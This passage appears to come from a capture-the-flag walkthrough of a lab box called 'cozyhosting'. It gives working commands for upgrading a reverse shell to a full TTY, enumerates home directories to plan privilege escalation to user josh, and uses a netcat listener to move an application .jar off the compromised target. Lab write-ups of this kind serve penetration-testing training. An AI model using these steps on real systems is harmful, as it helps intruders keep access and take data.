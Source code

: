 Now I am going to upgrade my shell (*Python isn't on the target so I have to do it the long way*). Below are the steps that I use to do so:

```bash
script /dev/null -c bash

# ^Z (CTRL Z) to background the shell

stty raw -echo;fg

reset #type 'screen' when asked for terminal type

export TERM=xterm # allows you to clear STDOUT

# You can set row and column specifics on the target to make it match the settings on your host terminal, I will skip this for now
```

## Privlege Escalation to Josh

Now that we have our shell setup, let's see what we need to do to be able to read the user flag.

Looks like the user flag is in the user josh's home directory and we need to find a way to elevate our privs to that user.

```bash
app@cozyhosting:/app$ pwd
/app
app@cozyhosting:/app$ ls -alh /home
total 12K
drwxr-xr-x  3 root root 4.0K May 18 15:03 .
drwxr-xr-x 19 root root 4.0K Aug 14 14:11 ..
drwxr-x---  4 josh josh 4.0K Oct  6 00:46 josh
app@cozyhosting:/app$ cd /home/josh
bash: cd: /home/josh: Permission denied
app@cozyhosting:/app$
```

There is a large .jar file in the /app directory. Let's get this to our machine and see what we can do with it.

```bash
app@cozyhosting:/app$ ls -alh
total 58M
drwxr-xr-x  2 root root 4.0K Aug 14 14:11 .
drwxr-xr-x 19 root root 4.0K Aug 14 14:11 ..
-rw-r--r--  1 root root  58M Aug 11 00:45 cloudhosting-0.0.1.jar
```

To get it to your machine we can use netcat both on our machine and the target. 

```bash
# On the target server. Run this first

nc -l -p pick_a_port < cloudhosting-0.0.1.jar
```
